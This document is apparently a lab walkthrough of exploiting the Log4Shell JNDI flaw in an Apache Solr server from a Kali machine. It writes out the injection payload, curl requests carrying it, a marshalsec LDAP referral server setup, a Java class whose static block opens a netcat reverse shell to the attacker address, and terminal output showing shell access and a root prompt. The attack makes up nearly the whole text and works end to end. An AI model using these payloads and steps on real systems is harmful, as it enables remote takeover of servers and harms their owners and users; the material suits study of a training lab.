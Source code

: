 # Using Log4j to attack a vulnerable Apache Solar server. [Java 1.8.0_181]


### Enumerating and Analyzing target
Dashboard seen on admin front page
Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well

Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

### Parameter will be used as the attack vector, with payload passed as a parameter

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to allow for external resource lookup, ATTACKERADDRESS will be a listener on the kali machine.

a basic listener that will be employed
```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Anywhere data is logged, is vulnerable to the syntax --- we should have identified an entry point from the logs earlier (we are sure that it will log and be processed)
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this???

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need http server to host some files on our machine that contain the good stuff ;)
```python python3 -m http.server```

### Need the LDAP referral server to redirect to the new HTTP server ***Java8 required: https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html 

Ensure marshalsec is installed via ```mvn clean package -DskipTests``` after cloning the marshalsec git repository

Below we start up the refserver on our local system (this server waits for a connection, and then serves the redirect to whatever exploit we have)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The refserver listens on 1389 by default (LDAP) and then forwards to 8000

Notice the .java ? Any payload going through Log2j will be executed as Java code...

## Now we have the meat of this RCE exploit: remotely executing arbitrary code of any Java file, malicious or not.

Create a .java file in your favorite IDE or text editor with the same name as [EXPLOITHERE]:

```java

public class NotSus{

	static{
		try{
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.93 4444"); // reverse shell connects back to us
		}
		catch(Exception e){
			;        // no unnecessary noise if anything goes wrong
		}
	}

}
```
Here is a simple reverse shell java class for the payload

Compile : ```sh $ javac NotSus.java```


# Put things together, we start setting up the delivery of a staged payload...

In separate terminals:

file server with the payload - just hosting the current directory on pt 8000
```sh
┌──(kali㉿kali)-[~/Documents]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

listen for incoming connections from the victim - keep an eye on this ;)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ nc -lnvp 4444                
listening on [any] 4444 ...

```
rfserver that the victim will connect back to, traffic forwarded to the python file server for the Java payload
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

# HELLO COMPUTER, YOU HAVE A DELIVERY!! ;)) 
### The crafted GET request to the endpoint that is logging - go ahead and send it!!!!!!
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?pwn=$\{jndi:ldap://10.9.1.93:1389/NotSus\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```


### nc listener - type a command and notice that we have gained full control, and can remotely do anything with our shell access
### the listener isn't the prettiest so consider sending a different payload or execute whatever java code you want

```sh
$ nc -lnvp...
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50930

whoami
solr
sudo su

whoami
root

```





